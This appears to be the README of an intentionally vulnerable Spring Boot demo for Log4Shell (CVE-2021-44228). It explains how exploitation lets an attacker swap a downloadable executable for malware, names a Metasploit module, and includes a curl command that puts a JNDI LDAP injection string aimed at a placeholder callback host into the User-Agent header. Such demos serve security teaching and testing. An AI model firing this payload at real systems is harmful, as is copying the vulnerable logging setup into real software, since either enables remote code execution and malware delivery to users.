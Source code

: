 # Simple Spring Boot Web Application which is vulnerable to Log4Shell (CVE-2021-44228)

## Additional
> This is a fork of https://github.com/korteke/log4shell-demo

- This web application is for downloading a simple executable file from `/download` path.
This executable computes a sum of two entered integers.
- It demonstrates that exploiting Log4Shell vulnerability it is possible to change this executable, so
users would download a malware instead of expected program.
- Already infected versin of `summator` could be found in [`summator.c`](summator.c)

### How it can be used?
For example, using Metasploit module `exploit/multi/http/log4shell_header_injection`
![how-used.png](how-used.png)

## Original (from forked repo)

* Changed default logging framework from logback to log4j2

Application logs 'User-Agent' header, so one can test vulnerability with curl and e.g. [interactsh-service](https://github.com/projectdiscovery/interactsh):
```
curl -A '${jndi:ldap://interactsh-url/a}' http://target-service/
```
One should see DNS interaction at [app.interactsh.com](https://app.interactsh.com/).   



